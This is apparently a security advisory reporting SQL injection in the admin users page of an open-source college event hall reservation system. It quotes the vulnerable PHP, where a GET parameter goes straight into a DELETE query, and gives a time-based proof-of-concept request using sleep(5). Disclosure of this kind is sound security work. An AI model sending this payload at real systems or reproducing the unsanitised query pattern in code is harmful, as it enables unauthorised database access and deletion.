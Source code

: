 # MAGESH-K21 / Online-College-Event-Hall-Reservation-System - SQL Injection users.php

## **Credits**
> Joshua Lictan (https://github.com/skid-nochizplz/skid-nochizplz)<br/>

## Vendor Homepage:
> https://github.com/MAGESH-K21/Online-College-Event-Hall-Reservation-System/
> 
## Affected Component
> /admin/users.php

## Code
```php
if(isset($_GET['user_id'])){
    $uid = $_GET['user_id'];
    $sql = "DELETE FROM tbl_user WHERE user_id = $uid";
    $result = $conn->query($sql);
}
```

## Proof of Concept
**HTTP Request Example**
``` http request
GET /admin/users.php?user_id=sleep(5) HTTP/1.1
Host: [REDACTED]
```

## Screenshot
![image](https://github.com/skid-nochizplz/skid-nochizplz/assets/60700937/288078fe-d53d-4f4c-b6b0-4f253d2aa2c6)



